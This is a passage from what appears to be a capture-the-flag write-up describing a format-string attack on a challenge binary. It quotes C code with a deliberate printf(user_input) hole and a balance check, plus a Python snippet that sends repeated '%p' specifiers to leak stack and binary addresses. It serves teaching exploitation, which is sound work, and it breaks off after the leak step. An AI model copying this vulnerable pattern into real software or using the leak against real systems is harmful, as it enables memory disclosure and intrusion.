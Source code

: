 ## Exploit Idea:
We have to somehow go to the use_tape() Since it has our flag and another format string exploit.

```c
void use_tape(){
	char experience[50];
	char flag[50];

	FILE *fp;
	fp = fopen("flag.txt", "rb");
	if(fp != NULL){
		fgets(flag, 50, fp);
		fclose(fp);

		printf("Please give us your feedback!\n");
		fgets(experience, 50, stdin);
		printf(experience);
		exit(0);
	}
	else{
		printf("Error opening file!\n");
		exit(1);
}
```

But the small caviat is we can't go there directly we somehow have to increase our balance from 100 to 200 (exactly) and then call `buy_repair_kit()`.

```c
void buy_repair_kit(){
    if(bal == 200){
        use_tape();
    }
    else{
        printf("You do not have enough balance! :(\n");
    }
}
```

## Format string 1:

First I leak the entire stack(useful range) with the help of %p (gives the hexadecimal value of what is in the stack). 
```py
p.sendline(b"-%p"*50)
leak = p.recvline()
leak = leak.split(b"-")
```
Sending many %p with the '-' acting as a delimiter between all the values leaked from the stack. (easy to split and put them in a list). If we play around with this then we notice that some of the values from the leaked data is similar to the binary's address. Checking the VA space, we find that the value leaked from the %p was indeed from the binary. (underlined)
